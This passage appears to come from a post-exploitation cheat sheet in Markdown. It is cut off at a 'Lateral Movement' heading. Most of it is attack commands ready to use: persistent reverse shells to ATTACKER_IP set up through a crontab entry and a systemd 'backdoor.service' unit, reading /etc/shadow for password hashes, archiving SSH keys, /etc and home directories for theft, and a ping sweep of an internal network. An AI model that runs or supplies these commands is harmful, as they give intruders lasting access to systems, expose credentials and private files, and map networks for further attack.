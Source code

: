 #### Create a Persistent Reverse Shell
```bash
# In crontab
(crontab -l 2>/dev/null; echo "* * * * * bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'") | crontab -

# In systemd service
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=Backdoor Service

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backdoor.service
systemctl start backdoor.service
```

### Information Gathering

#### Extract Password Hashes
```bash
cat /etc/shadow
```

#### Dump Important Files
```bash
# SSH keys and configs
tar -czf /tmp/ssh.tar.gz /etc/ssh/
# /etc configuration
tar -czf /tmp/etc.tar.gz /etc/
# User home directories
tar -czf /tmp/home.tar.gz /home/
```

#### Network Analysis
```bash
# Check established connections
netstat -antp

# Check for internal services not exposed externally
netstat -anlp | grep LISTEN

# Scan internal network
for ip in $(seq 1 254); do ping -c 1 10.0.0.$ip | grep "64 bytes"; done
```

### Lateral Movement
